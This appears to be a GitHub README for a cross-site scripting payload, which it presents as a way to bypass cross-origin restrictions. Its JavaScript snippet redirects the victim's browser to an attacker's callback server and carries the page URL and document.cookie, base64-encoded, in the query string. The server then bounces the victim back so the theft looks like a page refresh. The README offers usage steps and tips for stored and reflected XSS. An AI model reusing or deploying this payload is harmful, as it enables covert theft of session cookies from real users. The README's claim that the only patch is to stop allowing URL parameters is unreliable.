 ## Bypass Cross-Origin Resource Sharing restrictions

This demonstrates how the location setter of browsers are vulnerable to cross origin resource sharing.

The only patch for this would be to stop allowing URL parameters for all GET requests.

This repo includes an example XSS payload and callback that, once executed, will change a browser's location to your callback server, which returns a **301 Moved Permanently** response sending the victim back to its referrer.

This example also includes a token to facilitate stored and reflected XSS; a token is added to the URL's anchor preventing the XSS payload from reactivating. It would of course be better practice if you extend this payload so that it removes the stored/reflected XSS entirely.

**When the attack is executed successfully, the victim experienced what seemed like a page refresh at most.**

## Usage

Use the following code in your XSS payload. You must change the new location's address to that of your callback server, and change the token at the very least.

You can shorten this code by removing the token if you are not using it in stored or reflected XSS.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) globalThis.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent(btoa(globalThis.location.href)) + 
  "&data=" + encodeURIComponent(btoa(document.cookie)) + 
  "&token=" + encodeURIComponent(btoa(token));
```

If the victim did not send a `referer` URL parameter, the attacker's server looks for a `Referer` header value. If neither of those are provided, the victim will be redirected to a panic address of your choice.
